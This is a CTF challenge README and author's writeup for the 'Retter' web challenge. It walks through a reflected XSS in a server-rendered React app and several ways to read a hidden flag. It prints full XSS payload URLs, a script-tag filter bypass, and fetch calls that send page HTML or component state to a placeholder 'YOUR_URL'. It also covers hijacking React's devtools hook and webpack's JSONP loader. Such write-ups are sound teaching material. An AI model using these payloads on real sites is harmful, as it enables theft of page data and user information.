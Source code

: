 Retter
=================================
## Challenge (4 solved)

To Major Gilbert

http://retter.2018.teamrois.cn

## Build & Run

Only ``admin.retter.2018.teamrois.cn`` can render ``<Flag />``, change it in ``src/universal/NotFound/NotFound.js``.

Only ``172.12.0.1`` be allowed to read the ``flag.js``, change it in ``docker/retter``.

## Writeup

Open the devtool, we will find that the ``<html>`` tag has a property ``data-reactroot`` and knows that the site is using ``React``. View the HTML Source, it is easy to focus on the ``window.__INITIAL_STATE__``. That is meant by site configured Server-side rendering.  If the website is Server-side rendering Redux, it has to inject the initial state into a template to sync with the client-side. See: [Redux - Server render](https://redux.js.org/recipes/ServerRendering). The ``__INITIAL_STATE__`` has only one attribute ``location`` which value is the current URL. So we can build a URL like ``http://localhost:8667/</script>`` to XSS.

The next step is to run our script in the page. Not hard to know ``<script></script>`` is filtered by server, use ``<scr<script>ipt></script>`` to bypass. Then, we can bypass Chrome XSS Auditor by ``<scr<script>ipt>a<script></script>lert(1)</script>`` due to this useless filter. Now we have the abilitity to run any code on this page, it's showtime now!

The first necessary thing is to read the cookie, but...
![](screenshot/1.png)

Flag is not under ``document.cookie``. Well, it's better to check the HTML code with ``document.body.innerHTML`` if any clues are hidden.


Payload:
``http://retter.2018.teamrois.cn/</script><scr<script></script>ipt>setTimeo<script></script>ut(()%20=>%20%7Bvar%20o%20=%20new%20FormData();%20o.append('a',%20document.body.innerHTML);fetch('YOUR_URL',%20%7Bmethod:'post',mode:'no-cors',%20body:o%7D)%7D,%202000)%20</script></script>``

![](screenshot/2.png)

We get a hint that tells us the flag is hidden in the component. Wait.. What is the component? We already know that this site is based on React, so the ``component`` here most likely means React Component. According to [React.Component - React](https://reactjs.org/docs/react-component.html), we know each React component have two instance properties: ``state`` and ``props``. The flag probably is hidden in one of them. Now our task is to try to get the ``state`` or ``props`` of this component.

How to get the flag? (5/22/2018 Updated)

### Way 1 - React Dev Tool

React doesn't expose any API under ``window``, but every developer who is using React needs to debug their code. As the result, the development tool of React has to have the ability to access the state. That means we certainly have a way to get inside the React if we disguise us as the development tool. Google it, we can find a Chrome extension [React Developer Tools](https://github.com/facebook/react-devtools).

In addition to reading the code, we can install it to guess its action. After installing the extension, a function named ``__REACT_DEVTOOLS_GLOBAL_HOOK__`` appeared in ``window``. Now search the code in React, got [ReactFiberDevToolsHook.js](https://github.com/facebook/react/blob/8de8be07a89f55ebfcaaccf1499e03f22d90bad5/packages/react-reconciler/src/ReactFiberDevToolsHook.js#L35). The code follows:
```javascript
export function injectInternals(internals: Object): boolean {
  // ...
  try {
    const rendererID = hook.inject(internals);
    // We have successfully injected, so now it is safe to set up hooks.
    onCommitFiberRoot = catchErrors(root =>
      hook.onCommitFiberRoot(rendererID, root),
    );
    onCommitFiberUnmount = catchErrors(fiber =>
      hook.onCommitFiberUnmount(rendererID, fiber),
    );
  } catch (err) {
    // ...
  }
```

That's mean React will check ``__REACT_DEVTOOLS_GLOBAL_HOOK__`` during **initializing**(so we can't use this way after the page is initialized). If it found the hook, it will inject itself into the hook.

OK, all the necessary information is complete. With the help of [Add React to a New Application](https://reactjs.org/docs/add-react-to-a-new-app.html), we can build a React App and test our ideas locally.

First of all, insert this script before ``<script src="app.js"></script>``
```html
<script>var __REACT_DEVTOOLS_GLOBAL_HOOK__ = {supportsFiber: true, inject: (a) => window.aa = a};</script>
```

Currently we got the React instance in ``window.aa``, and we can find out what this API exposed via Chrome Dev Tool. Its member ``findFiberByHostInstance`` seems useful, and it's easy to know ``aa.findFiberByHostInstance(document.querySelector('some-selector')`` will return a ``ProxyComponent`` which has a paramater ``memoizedState`` to store the state.

Combine them:
```javascript
var __REACT_DEVTOOLS_GLOBAL_HOOK__ = {supportsFiber: true, inject: (a) => window.aa = a}; setTimeout(() => {console.log(aa.findFiberByHostInstance(document.querySelector('flag')).return.memoizedState)}, 1000)
```

Finally, our payload is:
```html
http://retter.2018.teamrois.cn/%3C/script%3E%3Cscr%3Cscript%3E%3C/script%3Eipt%3Evar%20__REACT_DEVTOOLS_GLOBAL%3Cscript%3E%3C/script%3E_HOOK__%20=%20%7BsupportsFiber:%20true,%20inject:%20(a)%20=%3E%20window.aa%20=%20a%7D;%20setTimeout(()%20=%3E%20%7Bfetch('YOUR_URL'+JSON.stringify(aa.findFiberByHostInstance(document.querySelector('flag')).return.memoizedState))%7D,%201000)%20%3C/script%3E%3C/script%3E
```
![](screenshot/3.png)

This payload only works with React 16.

### Way 2 - Webpack JSONP

It's easier than ``React Dev Tool``, so I added more difficulty.

Read ``manifest.js``, we can know there's a ``flag.js``:
```javascript
u.src=n.p+""+({3:"flag"}[e]||e)+"_"+{0:"1b67ce672850a0add7ec",1:"3e8f6b946ce819a88092",2:"e9a9c1c90f12c48c07e0",3:"3bce8e296124f6ffeb78"}[e]+".js"
```

We can get the path of ``flag.js``:
http://cdn.retter.2018.teamrois.cn/flag_3bce8e296124f6ffeb78.js . Open it in the browser!

... The flag is hidden in this file, so I'm sorry, 403 Forbidden. Only our bot can read this.

How can we get this file through XSS? Directly ajax like ``fetch(url).then(p => p.data)``? We can't do this because the script is under the ``cdn.domain``, it cross-domained.

You may noticed that all the scripts start with ``webpackJsonp``, that means I used webpack's code-splitting. You can see that chunks are loaded via JSONP. Thus, we can get the first payload:

```html
<script>var webpackJsonp = (a, b, c) => {if (b['./universal/components/Flag.js']) console.log(a, b['./universal/components/Flag.js'].toString(), c)};</script>
```

Let's read ``webpackJsonp`` in ``manifest.js``.

```javascript
    var r = window.webpackJsonp;
    window.webpackJsonp = function(t, a, c) {
        for (var u, i, f, l = 0, s = []; l < t.length; l++)
            i = t[l],
            o[i] && s.push(o[i][0]),
            o[i] = 0;
        for (u in a)
            Object.prototype.hasOwnProperty.call(a, u) && (e[u] = a[u]);
        for (r && r(t, a, c); s.length; ) // That's why we predefined function will be called
            s.shift()();
        if (c)
            for (l = 0; l < c.length; l++)
                f = n(n.s = c[l]);
        return f
    }
```
We don't need to import ``flag.js``, ``webpackJsonp`` redefined in ``manifest.js`` will call the function we defined before, and React will auto import ``flag.js``.

It's too easy so I made a bypassable filter in ``docker/build.sh``.

- [CyKor](https://ctftime.org/team/369) implemented a ``webpackJsonp`` will send data to their server but return of ``toString()`` is as normal one to bypass the filter.
- [Bushwhackers](https://ctftime.org/team/586) found that ``webpackJsonp`` will return the loaded script as requested by the third parameter.
- ``张衡路窝里斗大学一楼食堂彻底完蛋啦`` see: https://github.com/zsxsoft/my-rctf-2018/issues/1


### Way 3 - iframe + ref
[OpenToAll](https://ctftime.org/team/9135) found it, see: https://devcraft.io/2018/05/22/retter-rctf-2018.html

### Way 4 - Read states from DOM

We still have two sub-ways here Haha.

React will add ``_reactRootContainer`` to root element, and we can read it by ``document.getElementById('root')._reactRootContainer._internalRoot``. React 16's ``FiberNode`` is implemented by linked-list, so just traverse the list and you can get flag.

The another way is, each DOMs rendered by React have ``__reactInternalInstancexxxxxx`` attribute, and its type is ``FiberNode`` in React 16.

![](screenshot/4.png)

Just read it and get state. Payload:

``document.querySelector('flag')[Object.keys(document.querySelector('flag'))[0]].return.memoizedState``
